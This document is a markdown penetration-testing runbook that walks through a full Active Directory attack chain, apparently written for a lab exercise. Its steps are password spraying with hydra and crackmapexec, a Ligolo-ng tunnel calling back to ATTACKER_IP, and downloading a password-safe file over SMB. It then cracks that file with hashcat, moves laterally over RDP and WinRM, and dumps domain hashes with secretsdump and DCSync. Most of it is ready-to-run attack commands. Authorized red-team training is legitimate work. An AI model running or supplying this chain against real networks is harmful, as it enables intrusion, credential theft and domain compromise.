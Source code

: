 ```yaml
---
title: "DMZ Foothold → Pivot → Credential Chain → DC Compromise"
category: runbook
tags: [dmz, pivoting, ligolo, credential-chain, smb, password-spraying, pass-the-hash]
---
```


# DMZ Foothold → Pivot → Credential Chain → DC Compromise

**TL;DR**  
From an initial DMZ credential or sparse credential clue, gain a foothold, establish a stable pivot (Ligolo‑ng), enumerate SMB/RDP/WinRM surfaces, extract credential material (password safes, cached creds), crack offline where applicable, then escalate laterally to a jump host and onward to the Domain Controller via Pass‑The‑Hash or DCSync techniques.

---

## Goal
- Obtain initial access in DMZ from credential spray or discovered credential artifacts.  
- Establish a pivot into internal subnet for enumeration and lateral movement.  
- Harvest credential artifacts (password safe files, cached creds) and obtain NTLM/Administrator hashes for domain compromise.

## Prerequisites
- Environment: attacker host with `ligolo-ng`, `smbclient`, `smbmap`, `nmap`, `hydra`/`crackmapexec`, `hashcat`, and `snaffler` (or similar).  
- Basic familiarity with SMB enumeration and RDP/WinRM tooling.

---

## High-Level Flow
1. Generate username candidates and password-spray SSH/other DMZ services to find weak creds.  
2. Use valid credential(s) to access DMZ host (DMZ01). Drop pivot tooling (Ligolo‑ng or similar).  
3. Pivot into internal range (e.g., `172.16.119.0/24`).  
4. Enumerate SMB shares, harvest artifacts (e.g., `.psafe3` Password Safe files).  
5. Crack offline artifacts with `hashcat` to obtain plaintext credentials.  
6. Use newly discovered creds to access jump hosts (JUMP01).  
7. Use Mimikatz or other techniques to obtain NTLM/hash and move to DC.  
8. Use `secretsdump`, `DCSync`, or PTH to obtain the Administrator hash and confirm domain compromise.

---

## Commands & Techniques

### 1) Username generation & password spray (SSH/RDP/SMB)
```bash
# hydra example (ssh)
hydra -L users.txt -P rockyou.txt ssh://10.10.10.10 -t 8

# crackmapexec spray (smb/rpc)
crackmapexec smb 172.16.119.0/24 -u users.txt -p 'Password1' --continue-on-success
```

### 2) Drop and run Ligolo‑ng pivot
```bash
# on attacker
ligolo-ng -listen 0.0.0.0:9001 -proto tcp -server
# on DMZ host (staged)
./ligolo-ng -client -remote ATTACKER_IP:9001 -proto tcp
```

### 3) SMB enumeration & pull artifacts
```bash
smbclient -U 'NEXURA\hwilliam' \
  '\\172.16.119.10\HR' -c 'cd Archive; get Employee-Passwords_OLD.psafe3'

# use smbmap to list shares
smbmap -H 172.16.119.10 -u hwilliam -p 'password'
```

### 4) Crack Password Safe v3 (.psafe3)
```bash
# hashcat mode 5200 (Password Safe v3)
hashcat -m 5200 Employee-Passwords_OLD.psafe3 /usr/share/wordlists/rockyou.txt.gz --force
```

### 5) Lateral movement: RDP / WinRM / SMB
```bash
# xfreerdp (RDP)
xfreerdp /v:JUMP01 /u:administrator /p:'P@ssw0rd'

# evil-winrm example for WinRM
evil-winrm -i JUMP01 -u Administrator -p 'P@ssw0rd'
```

### 6) Dumping credentials / hashes
```bash
# Mimikatz (lsass) on a jump host
# Or use impacket-secretsdump for remote dumping with creds
impacket-secretsdump -outputfile creds -just-dc-user Administrator 'DOMAIN/JUMP01$'@dc01.domain.local

# DCSync via impacket if you have replication rights
secretsdump.py -just-dc -outputfile dump DOMAIN/Administrator@dc01.domain.local
```

---

## Things to Watch For (red flags)
- Password safes in shared folders (`.psafe3`, KeePass, etc.).  
- Reused credentials across DMZ → internal jump hosts.  
- Unexpected SMB shares with backup/archive files.  
- Presence of defensive tooling that may detect pivoting (EDR/IPS in lab may be disabled).

## Cleanup & Safety
- Remove ligolo client binaries and any uploaded tools.  
- Clear temporary files, check for persistent services created by you.  
- In lab: snapshot/rollback. In real engagements: document actions and leave forensic artifacts intact unless otherwise agreed per ROE.

---

## Further reading / tools
- `ligolo-ng` (pivoting) — multi‑hop tunneling.  
- `snaffler` — artifact hunting.  
- `hashcat` — offline cracking.  
- `impacket` tools — `secretsdump`, DCSync helpers.

